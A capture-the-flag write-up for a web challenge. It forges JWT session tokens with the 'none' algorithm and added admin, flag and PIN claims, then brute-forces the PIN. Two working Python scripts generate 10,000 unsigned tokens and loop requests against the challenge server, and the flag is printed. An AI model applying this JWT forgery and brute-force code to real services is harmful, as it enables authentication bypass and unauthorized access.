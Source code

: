 # you-can-trust-me
![Screenshot 2024-03-24 221936](https://github.com/alexsandusf/CTFWriteups/assets/162010016/ae31f1b0-b80e-43be-88d2-764848ea2abd)




#  Start
![image](https://github.com/alexsandusf/CTFWriteups/assets/162010016/e72d5b6a-b4a0-4b56-a108-76acee8d9092)


# Solution
First make a GET request to the target using BurpSuite, the response will give us a JWT token.

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYW5vbnltb3VzIn0.WC3mWgv2xrWOwgr1RHRxGlfZRPuNl6fycM9VhLbXMxA

Next decode the token I used: https://www.gavinjl.me/edit-jwt-online-alg-none/

# Decoded Token

{"alg":"HS256","typ":"JWT"}

{"user":"anonymous"}

# Modify the token

We can try setting the "alg" to none and "user" to "admin"

This will still not work as we need more information

![image](https://github.com/alexsandusf/CTFWriteups/assets/162010016/7434897e-e229-4b83-9e04-f1547a66e0cb)

Using dirb we can fuzz untill we reach the /docs which will give us a hint for the challenge

![image](https://github.com/alexsandusf/CTFWriteups/assets/162010016/eafb7d63-81ae-4936-8665-662ea2a10874)

We can try adding the is_admin key to the JWT token

{"user":"anonymous","is_admin": True}

# Missing Flag

Next we just edit the JWT token again to add a flag value

{"user":"anonymous","is_admin": True,"flag":"a"}

# Missing Pin

Next it returns Missing Pin so, we add a pin value

{"user":"anonymous","is_admin": True,"flag":"a","pin":"1234"}

# Pin is invalid (hint)use your phone pin first 4

The next step is just to brute force the pins untill we get the correct one

```python3

import jwt

# Define the secret key (you can change this as needed)
secret_key = ""

# Define the payload template
payload_template = {
    "user": "admin",
    "is_admin": True,
    "flag": "a",
    "pin": None
}

# Define the character set for the PIN (you may need to adjust this)
charset = "0123456789"

# Generate JWT tokens with PINs from 0000 to 9999
jwt_tokens = []
for pin in range(10000):
    payload_template["pin"] = f"{pin:04d}"
    token = jwt.encode(payload_template, secret_key, algorithm="none").encode('utf-8')
    jwt_tokens.append(token)

# Write JWT tokens to a text file
with open("jwt_tokens.txt", "w") as file:
    for token in jwt_tokens:
        file.write(token.decode('utf-8') + "\n")






# Print all JWT tokens
for token in jwt_tokens:
    print(token)

```

This will get us a text file with all of our keys needed so we can bruteforce the solution

# Gettting Flag


```python3

import requests

def get_next_cookie_from_file(file_path):
    """Read cookies from a file and return the next cookie."""
    with open(file_path, 'r') as file:
        cookies = file.readlines()
    get_next_cookie_from_file.index = getattr(get_next_cookie_from_file, 'index', 0)
    if get_next_cookie_from_file.index >= len(cookies):
        get_next_cookie_from_file.index = 0
    cookie = cookies[get_next_cookie_from_file.index].strip()  # Strip to remove trailing newline characters
    get_next_cookie_from_file.index += 1
    print(cookie)
    return cookie

def send_get_request(cookie_file_path):
    # Define the URL and headers
    url = 'http://34.89.210.219:31823/'
    headers = {
        'Host': '34.89.210.219:31823',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'en-US,en;q=0.9',
        'Cookie': 'sessionKey=' + get_next_cookie_from_file(cookie_file_path),  # Get next cookie from file
        'Connection': 'close'
    }

    # Send the GET request
    response = requests.get(url, headers=headers)

    # Print the response
    print(response.text)

# Provide the path to the file containing cookies
cookie_file_path = 'jwt_tokens.txt'

# Send the GET request with the next cookie from the file
while(1):
  send_get_request(cookie_file_path)

```

Using the pin 7331 we will end up getting the flag

CTF{2965f7e9fcc77fff2bd869db984df8371845d6781edb382cc34536904207a53d}
